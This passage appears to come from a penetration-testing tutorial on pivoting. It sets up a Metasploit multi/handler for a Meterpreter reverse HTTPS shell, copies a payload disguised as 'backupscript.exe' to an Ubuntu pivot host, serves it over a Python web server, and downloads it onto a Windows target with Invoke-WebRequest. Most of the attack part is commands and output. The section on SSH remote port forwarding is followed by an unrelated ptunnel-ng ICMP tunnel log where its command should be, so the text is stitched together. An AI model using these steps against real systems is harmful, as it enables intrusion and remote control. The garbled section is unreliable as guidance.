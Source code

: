#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000

```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host

```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00

```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

```shell
ubuntu@Webserver$ python3 -m http.server 8123

```

#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%